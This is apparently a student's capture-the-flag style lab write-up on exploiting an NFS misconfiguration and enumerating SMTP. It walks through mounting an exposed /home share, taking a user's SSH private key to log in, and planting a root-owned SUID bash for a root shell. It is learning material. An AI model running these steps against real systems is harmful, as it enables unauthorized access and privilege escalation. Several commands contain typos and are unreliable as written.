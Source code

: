 # Network Services 2  
🔍 **Enumerating and Exploiting More Common Network Services & Misconfigurations**  

📅 **Date:** 2025-03-22

🖥️ **Category:** Network Services, Penetration Testing  
🎯 **Objective:** Identify and exploit misconfigurations in common network services  


## 🛠 1️⃣ Enumerating Network File System (NFS)  
### 🔎 **Scanning for Open Ports**  

The first step of enumeration is to conduct a port scan to find out as much information as we can about the services, open ports and operating system of the target machine.

I am going to scan for open ports using an nmap scan.

**Command used:**
```bash
nmap -p- --open <target-IP>
```

**Findings:**

![Screenshot (143)](https://github.com/user-attachments/assets/67458606-c6c6-4c28-9a49-4fb278b6ef65)

1. There are 7 open ports.
2. Port 2049 contains the service we want to enumerate.

Now I used the command below to list the NFS shares

**Command used:**
```bash
/usr/sbin/showmount -e <target-IP>
```

**Findings:**

![Screenshot (144)](https://github.com/user-attachments/assets/269a3670-f6e5-4265-bb7c-6120b2d8685a)

1. The name of the visible share found is /home.

Now we want to mount the share to our local machine. Firstly, I make create a directory that I will mount my share to using *mkdir /tmp/mount*. My client system needs a directory where all the content shared by the host server in the export folder can be accessed, and we have created this directory, it is called tmp.

I then mounted the NFS share to my local machine.

**Command used:**
```bash
sudo mount -t nfs 10.10.10.71:/home /tmp/mount/ -nolock
```
I then changed directory to where I mounted this share.

**Findings:**

![Screenshot (145)](https://github.com/user-attachments/assets/00208cc0-df51-40aa-94cb-73b4320f10d2)

1. The name of the folder inside this directory is cappucino.

![Screenshot (146)](https://github.com/user-attachments/assets/4d91018c-9aff-478f-8e0a-8c74180a7ee7)

I took a look insde this directory and looked at the files. It looks like we are inside a user's home directory.


I did a bit of resesarch inside these folders and found that one folder, *.ssh*, could contain keys that would give us remote access to the server.

![Screenshot (147)](https://github.com/user-attachments/assets/161d2868-ae4c-4d36-81cf-70a6fffaa6d9)

Of these keys, the one that is most useful to us is the *id_rsa* one.

I then copied this file to a different location (/root) on my local machine, and changed the permissions to 600.

**Command used:**
```bash
cp id_rsa/root
```
```bash
chmod 600 /root/id_rsa
```
I then listed the contents of the root directory to see if indeed the file was copied there and it was.

![Screenshot (149)](https://github.com/user-attachments/assets/eb733f47-3be5-4ea2-8322-116709629625)

I pretty much easily worked out the name of the user this key belongs to because recall how we got to this id_rsa file before. The private key was found in a directory structure like this:

```bash
/tmp/mount/cappucino/.ssh/id_rsa
```
Therefore, the username is the one that comes before /.ssh and that is cappucino.
Thus I logged into the machine using the command below:

```bash
ssh -i id_rsa cappucino@<target-IP>
```
**Findings:**

![Screenshot (150)](https://github.com/user-attachments/assets/bb86c071-4374-405a-9322-d45821c0e816)
![Screenshot (152)](https://github.com/user-attachments/assets/8fc6a37d-f692-485a-85b8-bfd226825f53)

I successfully logged into the machine!


## 📤 3️⃣ Exploiting NFS

To expoit the NFS share, I first have to change directory to the mount point on my machine, and then into the user's home directory. Remember we established that the user's username is cappucino.

![Screenshot (153)](https://github.com/user-attachments/assets/416b021f-38e2-4fb8-aade-8d3091f68011)

We're able to upload files to the NFS share, and control the permissions of these files. We can set the permissions of whatever we upload, in this case a bash shell executable. We can then log in through SSH, as we did in the previous task- and execute this executable to gain a root shell!
I changed directory to *.ssh* as I was still here because this is where we find the *id_rsa* key.

To download the executable to my Downloads directory, I used the command below:

**Command:**
```bash
scp -i key_name username@10.10.36.95:/bin/bash ~/Downloads/bash
```
I then used the below command to copy the bash executable to the NFS share. During the enumeration stage, we found the NFS share to be /home.
```bash
cp ~/Downloads/bash /home
```
The copied bash shell must be owned by the root user so I set this using:
```bash
sudo chown root /home/bash
```

**Findings:**

![Screenshot (154)](https://github.com/user-attachments/assets/e7bbe6ad-e8a9-4108-936c-6fb640b20d5e)

Lastly, as the screenshot above shows, I had to verify ownership by listing the contents in the /home/bash directory and indeed the bash shell is owned by a root user.


Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using *sudo chmod +s bash*. And after setting these permissions I used *ls -la /home/bash* to check the permissions of the bash executable. The permissions were successfully set.

![Screenshot (155)](https://github.com/user-attachments/assets/f35b5a4c-3456-49f0-9d7d-fd0b6e3a76b2)


## 📡 4️⃣ Enumerating Simple Mail Tranfer Protocol (SMTP)

Poorly configured or vulnerable mail servers can often provide an initial foothold into a network.  We're going to use the "smtp_version" module in MetaSploit to do this.
First, we'll run a port scan to search for open ports.

**Command used:**
```bash
nmap -p- --opne <target-IP>
```

**Findings:**

![Screenshot (209)](https://github.com/user-attachments/assets/cca9b13a-f0f2-4d31-8dc0-dce7a0ea9898)

SMTP is running on port 25.

Now that we know which port we will be targeting, we will start up Metasploit.
**Command used:**
```bash
msfconsole
```
I then searched for the smtp_version using the command below:

```bash
search smtp_version
```

**Findings:**

![Screenshot (210)](https://github.com/user-attachments/assets/fd104917-6e38-4e85-a6a6-45caf5be8371)

The smtp_version's full module name is auxiliary/scanner/smtp/smtp_version

Now, we will select the module and show its options.

**Command used:**

```bash
use auxilliary/scanner/smtp/smtp_version
```
And 

```bash
show options
```
![Screenshot (212)](https://github.com/user-attachments/assets/2c3118ac-1450-47e5-aafe-2f3ccb29a2af)

We need to set the RHOSTS option as it is the most important for SMTP enumeration.
I will set it to the correct value of the target machine using the below command. Once set, run using the *run* command.

**Command used:**
```bash
set RHOSTS <taget-IP>
```
**Findings:**

![Screenshot (214)](https://github.com/user-attachments/assets/d5e4238c-4284-4ead-bc57-477a7e365cfb)

The system mail name is polosmtp.home



